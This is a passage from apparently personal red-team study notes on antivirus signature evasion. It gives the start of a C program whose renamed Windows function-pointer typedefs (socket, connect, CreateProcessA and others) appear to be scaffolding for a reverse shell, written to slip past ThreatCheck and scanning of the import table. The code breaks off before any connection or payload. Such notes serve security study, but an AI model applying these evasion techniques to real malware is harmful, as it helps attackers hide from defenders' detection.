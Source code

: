 Per the MS docs for the custom function:

![Signature Evasion Code Blocks-4.png](/img/user/cards/red-team/images/Signature%20Evasion%20Code%20Blocks-4.png)
Instead of `typedef BOOL` we use `typedef SOCKET`, the idea is we should check this against threatcheck and look at the Import Address Table and see what could possibly be flagged.

```C
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

typedef SOCKET (WINAPI *myNotSocketA)(
    int af,
    int type,
    int protocol,
    LPWSAPROTOCOL_INFOA lpProtocolInfo,
    GROUP g,
    DWORD dwFlags
);

typedef int (WSAAPI *npalmEra)(
    SOCKET s,
    const struct sockaddr *name,
    int namelen,
    LPWSABUF lpCallerData,
    LPWSABUF lpCalleeData,
    LPQOS lpSQOS,
    LPQOS lpGQOS
);

typedef BOOL (WINAPI *uncoolInstruction)(
    LPCSTR lpApplicationName,
    LPSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCSTR lpCurrentDirectory,
    LPSTARTUPINFOA lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation
);

typedef int (WINAPI *calculateOutput)(
    WORD wVersionRequired,
    LPWSADATA lpWSAData
);


typedef DWORD (WINAPI *DontWaitForCalculation)(HANDLE, DWORD);

typedef int (WINAPI *myCloseSocket)(
        SOCKET s

);

typedef int (WINAPI *myWCleanup)(

);

typedef unsigned long (WINAPI *myInetAddr)(
```